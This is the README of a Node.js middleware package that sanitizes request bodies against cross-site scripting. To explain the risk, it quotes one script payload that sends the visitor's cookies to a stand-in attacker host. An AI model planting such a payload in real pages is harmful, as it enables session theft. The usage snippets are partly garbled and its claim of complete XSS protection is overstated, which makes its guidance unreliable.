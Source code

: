 [![Pull requests](https://img.shields.io/badge/PRs-Welcome-brightgreen.svg)](https://github.com/peerquery/req-sanitizer/pulls)
[![Build status](https://travis-ci.org/peerquery/req-sanitizer.svg?branch=master)](https://travis-ci.org/peerquery/req-sanitizer)
[![Dep tracker](https://david-dm.org/peerquery/req-sanitizer.svg)](https://david-dm.org/peerquery/req-sanitizer)
[![Codebase license](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/peerquery/req-sanitizer/blob/master/LICENSE)

# req-sanitizer

## Sanitization is hard!

`Node.js` middleware to sanitize the `req.body` object. Did you know that you need to sanitize your content twice? One for the DB and one for HTML.

Did you also know that validating does not make your data secure? Validating data type would see this script get through:

`'<script>location.href='http://evil.corp.com?cookie='+document.cookie;</script>'`

That is a valid string. Lets say that is what someone entered into the name input field on your site's contact form. And you assumed that only the message `body` could contain XSS so you sanitized only that field!

When you rendered this user's info on your site, the above script would run! At the same time, let say you tried to individually sanitize all fields with a custom `sanitize()` module:

```
    var messageData = {
        name : sanitize(req.body.name),
        email : sanitize(req.body.email),
        message : sanitize(req.body.message),
        time : sanitize(req.body.time)
    };
    messageController.addMessage(req,res,messageData);
```

This would be too much bloat, without even mentioning that you would have to repeat this configuration for every single controller and API! What happens when you miss one of those fields? You are a toast. Save yourself hassle and automate this entire hassle with this module.

## Sanitization is required multiples times

Mongoose and MYSQL have their own sanitizing schemes, however implementing that does not make your content secure. For a secure system you need to sanitize all input into your DB.

Sanitizing is a must for all secure web apps. Unfortunately, for Node.js there has been very scanty **accurate** information on the topic. A lots of Node.js sanitization libraries are either outdated or no longer maintained. In the mean while, most sanitization efforts focus on sanitizing only a single object, such data from a certain endpoint, DB or API.

Read this detailed post to get the full concept as well as the severity of the issue: [5 Steps to Handling Untrusted Node.js Data](https://lockmedown.com/5-steps-handling-untrusted-node-js-data/)

## What this module does

When configured right, this module automated the entire process seamless. Requiring you to write only one line of code! This module is built on the blazingly fast and secure [XSS Filters](https://www.npmjs.com/package/xss-filters) library by [Yahoo](https://yahoo.github.io/secure-handlebars/xssfilters.html)!

## Installation

```
npm install --save req-sanitizer
```

## Usage

```javascript

var reqSanitizer = require('req-sanitizer');
Mount the middleware below the bodyParser() instantiations and above mounting of your routes

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(reqSanitizer()); // this line follows bodyParser() instantiations

```

**One liner**

```javascript

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(require('req-sanitizer')); // this line follows bodyParser() instantiations

```

### That is all!

All your `req.body` values are sanitized against XSS! You can stored them directly in the DB and display them directly on HTML without the need to sanitize them again.

All input from your APIs and POST methods are sanitized. However remember you still need to sanitize for the DB. At Peer Query we use [express-mongo-sanitize](https://npm.js.com/package/express-mongo-sanitize).

## Contribution is welcome.

I was inspired to build it after finding out that there was virtually no plug-and-play middleware for `Node.js` to sanitize the `req.body`. 

